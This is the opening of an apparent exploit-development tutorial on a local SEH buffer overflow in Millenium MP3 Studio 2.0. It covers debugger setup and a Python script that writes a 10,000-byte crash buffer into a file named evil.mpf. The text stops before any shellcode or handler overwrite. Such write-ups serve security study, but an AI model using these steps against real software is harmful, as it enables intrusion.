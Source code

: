 ```yaml
---
layout: single
title: Local SEH overflow exploitation - Millenium MP3 Studio 2.0
---
```


**Getting started**

Start by attaching an immunity debugger to the running MP3 Studio process.

![local seh 1](localseh1.png)

The basic concept for exploiting a local structured exception Handler based buffer overflow is that you will create a malicious text file that includes the payload that you were going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example this target application includes a buffer overflow when parsing certain types of data files, with an .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file, and inputs a large buffer of data into it.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```
